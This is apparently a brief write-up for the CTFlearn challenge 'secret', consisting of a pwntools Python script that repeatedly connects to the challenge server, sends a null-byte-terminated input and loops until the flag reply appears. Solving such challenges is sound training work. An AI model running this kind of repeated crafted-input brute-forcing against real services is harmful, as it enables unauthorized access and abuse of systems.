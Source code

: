# [secret](https://ctflearn.com/challenge/1514)

Smart bruteforcing...

```python
from pwn import *

while True:
    r = remote("rivit.dev", 10026)
    r.sendline(b'aa\0')
    s = r.recvline()
    r.close()
    print(s)
    if s != b'No flag for you!\n':
        break
```
